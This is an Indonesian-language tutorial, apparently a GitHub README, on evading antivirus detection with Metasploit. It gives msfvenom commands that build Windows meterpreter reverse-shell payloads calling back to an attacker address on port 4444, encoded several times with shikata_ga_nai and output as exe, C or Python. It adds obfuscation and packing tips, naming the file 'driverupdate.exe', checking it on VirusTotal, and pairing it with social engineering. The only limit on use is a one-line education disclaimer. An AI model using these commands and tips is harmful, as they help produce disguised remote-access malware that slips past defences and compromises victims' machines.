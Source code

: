 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV. |
| `Packing/Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file. | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode`. |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit. |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.100`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe` 

Encoder Populer di Metasploit:
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek Semua Encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `c`
   - `-o` : Nama file hasil payload: `payload.c`

  
   Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `python`
   - `-o` : Nama file hasil payload: `payload.py`
  
   Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |
